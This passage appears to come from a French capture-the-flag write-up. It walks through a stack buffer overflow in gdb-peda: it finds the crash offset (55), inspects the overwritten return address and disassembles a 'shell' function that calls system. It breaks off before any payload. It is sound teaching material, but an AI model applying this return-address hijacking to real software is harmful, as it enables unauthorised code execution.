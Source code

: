 ```bash
```

Au passage on voit les fonctions servant à générer les nombres aléatoire: ` call   0x4010b0 <rand@plt>`. 
On run le programme dans le debugger avec 100 'A', comme prévu, un SIGSEGV à `0x0000000000401266 in main ()`  qui correspond à l'instruction `0x0000000000401266 <+165>:	ret`. Dès maintenant, on determine l'offset de cette instruction (en testant à partir de quand on a seg fault ou en utilisant msf), au final notre offset est de 55. 

On mettant un breakpoint juste avant l'instruction nous demandant une entrée (`gdb-peda$ b *main+108`), on exécute instruction par instruction le programme. On s'arrête avant l'instruction return et on regarde l'état de la stack:

```bash[class=line-numbers]
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe568:
 rip 0x401266 in main; saved rip 0x4141414141414141
 called by frame at 0x7fffffffe578
 Arglist at 0x4141414141414141, args:
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe570
 Saved registers:
  rip at 0x7fffffffe568
```

On voit que rip pointe à l'adresse 0x7fffffffe568, est à cet adresse, on y trouve (`x/20x 0x7fffffffe568`) nos 0x41 supplémentaire. 
```bash[class=line-numbers]
gdb-peda$ x/10x 0x7fffffffe568
0x7fffffffe568:	0x4141414141414141	0x4141414141414141
0x7fffffffe578:	0x4141414141414141	0x4141414141414141
0x7fffffffe588:	0x4141414141414141	0x00007fff00414141
0x7fffffffe598:	0x323e08365fa2bbec	0x0000000000000000
0x7fffffffe5a8:	0x00007fffffffe688	0x0000000000000000
```
Alternativement avec peda, on voit que nos A se trouve dans le registre RSP (la où on en est dans la stack).

Finalement, nous on veut que à la place de nos 0x41 (A), on est quelque chose de plus sexy comme un shellcode ou autre. Mais oh tient, on avait pas une fonction shell tout à l'heure, voyons ca, `disassemble shell`:

```bash[class=line-numbers]
gdb-peda$ disassemble shell
Dump of assembler code for function shell:
   0x00000000004011a2 <+0>:	push   rbp
   0x00000000004011a3 <+1>:	mov    rbp,rsp
   0x00000000004011a6 <+4>:	lea    rdi,[rip+0xe57]        # 0x402004
   0x00000000004011ad <+11>:	call   0x401030 <puts@plt>
   0x00000000004011b2 <+16>:	lea    rdi,[rip+0xe5d]        # 0x402016
   0x00000000004011b9 <+23>:	call   0x401040 <system@plt>
   0x00000000004011be <+28>:	nop
   0x00000000004011bf <+29>:	pop    rbp
   0x00000000004011c0 <+30>:	ret
End of assembler dump.
```
